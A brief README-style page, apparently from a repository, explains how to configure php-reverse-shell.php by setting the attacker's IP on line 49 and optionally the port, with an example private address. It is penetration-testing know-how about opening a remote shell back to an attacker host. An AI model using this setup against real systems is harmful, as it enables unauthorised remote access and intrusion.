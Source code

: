 # IP & Port 

In (php-reverse-shell.php), You only need to change two things. It was IP and Port. You don't need to change port. but if you want, you can!

# Line-49
In line (49), you need to change the ip From "127.0.0.1" to "Your Ip".
For example, If your ip is "192.168.99.158". Set it (192.168.99.158) to ip. 

# Example
Attacker-ip = 192.168.99.158

$ip = '192.168.99.158';
